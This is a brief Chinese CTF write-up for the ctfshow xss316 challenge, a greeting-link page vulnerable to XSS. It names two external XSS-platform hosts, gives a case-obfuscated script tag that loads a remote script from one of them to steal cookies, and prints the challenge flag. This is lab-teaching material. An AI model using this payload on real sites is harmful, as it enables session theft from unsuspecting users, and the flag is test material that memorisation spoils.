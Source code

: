 # ctfshow-xss316



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```js
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/


输入框输入
<sCRiPt sRC=https://ww.rs/wIzi></sCrIpT>


ctfshow{a42d42fa-6298-45c8-833f-10c1478d6d02}




```

